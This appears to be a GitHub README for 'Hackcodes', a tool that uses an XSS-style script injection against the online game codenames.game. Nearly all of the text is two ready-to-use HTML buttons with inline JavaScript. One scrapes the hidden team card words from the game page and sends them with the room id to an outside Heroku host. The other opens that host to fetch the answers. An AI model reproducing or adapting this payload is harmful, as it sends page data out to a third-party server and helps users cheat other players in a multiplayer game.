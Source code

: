 # Hackcodes

This is a website created to support a XSS for https://codenames.game/.

## Script

```<button onclick="javascript:((function() {var a = document.querySelectorAll('.blue');var arr = [];for(b of a) { if(b.classList.contains('cardImage')) {var c = b.nextElementSibling;arr.push(c.innerText);};};window.open(`https:\/\/hackcodes.herokuapp.com/codenamesadd/${window.location.pathname.replace('/room/', '')}?answers=${arr.join(',')}`,'_blank');})())">Create Object (HOST)</button>
<button onclick="javascript:((function() {window.open(`https:\/\/hackcodes.herokuapp.com/codenames/${window.location.pathname.replace('/room/', '')}`,'_blank');})())">Get answers (OPERADOR)</button>```

Please be aware that you can change the class from .blue to .red or anything if needed.

---

zF4ke#8556
